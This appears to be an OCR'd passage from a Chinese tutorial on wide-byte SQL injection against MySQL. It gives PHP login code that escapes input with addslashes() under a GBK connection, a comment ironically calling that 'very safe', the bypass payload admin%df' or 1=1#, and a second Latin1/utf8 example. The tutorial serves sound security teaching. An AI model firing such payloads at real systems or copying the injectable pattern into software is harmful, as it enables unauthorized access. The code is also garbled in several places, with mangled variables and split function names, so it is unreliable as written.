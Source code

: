 ### GBK编码

```php
<?php

    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    } $
    conn->query("set names 'gbk';");
    $username = addslashes(@$_POST['username']);//非常安全的转义函数
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username' and password='$password';";
    $rs = mysqli_query($conn,$sql);
    echo $sql.'<br>';
    if($rs->fetch_row()){
        echo "success";
    }else{
        echo "fail";
} ?>
用户名输入：admin' or 1=1#
转义后为： admin\' or 1=1#
执行语句：... where username='admin\' or 1=1#'

用户名输入：admin%df' or 1=1#
转义后为： admin%df\' or 1=1#
SET character_set_client ='gbk'后：admin運' or 1=1#
执行语句：... where username='admin運' or 1=1#'
```

`%df` 吃掉`\` 具体的原因是`urlencode(\')` \= `%5c%27`，我们在`%5c%27` 前面添加`%df`，形成`%df%5c%27`，而上面提到的mysql 在GBK 编码方式的，第一位范围为`0x00-0x7F`时，当作一个字符。`%df`不在这个范围内，因此会将两个字节当做一个汉字，此事`%df%5c` 就是一个汉字，`%27` 则作为一个单独的符号在外面，同时也就达到了我们的目的。

### Latin1编码

```php
$mysqli = new mysqli( "localhost","root","root","cat");
if($mysqli->connect_errno){
    printf("failed: %s\n", Smysqli->connect_error);
    exit();
}
$mysqli->query("set names utf8");
$username= addslashes($_GET['username']);
//我们在其基础上添加这么一条语句。
if($username === 'admin'){
    die("You can't do this");
}

$sqL= "SELECT * FROM `table1` WHERE username='{$username}'";
if($result = $mysqli->query($sql)){
    printf("select returned %d rous.\n",$resule->num_rows);
    while ($row = $result->fetch_ array(MYSQLI_ASSOC))
    {
        var_ dump($row);      
    }
    $resule->close();
}else{
    var_dump($mysqli->error);
}
$mysqli->close();
?>
```
